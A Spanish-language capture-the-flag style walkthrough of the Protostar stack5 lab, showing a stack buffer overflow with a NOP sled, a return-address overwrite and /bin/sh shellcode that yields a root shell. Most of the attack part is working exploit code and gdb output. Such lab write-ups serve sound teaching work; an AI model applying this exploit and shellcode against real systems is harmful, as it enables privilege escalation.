 La cosa esque por las varaibles de entorno y demás, varia la pila entre gdb y fuera de él... así que exactamente no se sabe donde caerá este eip. Si tenemos un shellcode pero el eip cae en mitad lo "rebanará" y ya no funcionará bien, asi que tiene que caer en los nops estos que continuarán el flujo del programa al principio del shellcode que va detras. (De ahí la metáfora del tobogán que te desliza)

```python
import struct
offset = "A"*76
eip = struct.pack('I', 0xbffff6ac+10) # eip original mas unas pocas posiciones
nops = "\x90" *20 # Unos cuantos nops
stop = "\xCC"*4  # El codigo breakpoint de prueba
print(offset + eip + nops + stop)
```
```console
[user@protostar]-[/opt/protostar/bin]:$ python /tmp/exploit.py > /tmp/pattern
(gdb) run </tmp/pattern
Starting program: /opt/protostar/bin/stack5 </tmp/pattern
Program received signal SIGTRAP, Trace/breakpoint trap. 
(gdb) x/40wx $esp
0xbffff6b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff6c0:	0x90909090	0xcccccccc
```
Ha funcionado, asi que lo que queda es sutituir ese breakpoint por el [shellcode](https://shell-storm.org/shellcode/files/shellcode-219.php)
```python
import struct
offset = "A"*76
eip = struct.pack('I', 0xbffff6ac+10)
nops = "\x90" *20
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
shellcode += "\x53\x68/tty\x68/dev\x89\xe3\x31"
shellcode += "\xc9\x66\xb9\x12\x27\xb0\x05\xcd"
shellcode += "\x80\x31\xc0\x50\x68//sh\x68/bin"
shellcode += "\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
print(offset + eip + nops + shellcode)
```
```console
[user@protostar]-[/opt/protostar/bin]:$ python /tmp/exploit.py > /tmp/pattern
(gdb) run </tmp/pattern
Starting program: /opt/protostar/bin/stack5 </tmp/pattern
Executing new program: /bin/dash
$ whoami
user
```
GDB no puede ejecutar los programas SUID por eso seguimos siendo user. La razon del bin dash esque es un enlace a bash.
> El cat es para mantener el standar input abierto porque si no la consola que te abre te la cierra al instante.

```console
[user@protostar]-[/opt/protostar/bin]:$ ls -la /bin/sh
lrwxrwxrwx 1 root root 4 Nov 22  2011 /bin/sh -> dash
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py; cat) | ./stack5
whoami
Illegal Instruction
```
Me salía eso y me acabe rallando, pero la solución era muy tonta, aumentar el salto del eip y los nops
```python
eip = struct.pack('I', 0xbffff6ac+20)
nops = "\x90" *50
```
```console
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py; cat) | ./stack5
# whoami
root
```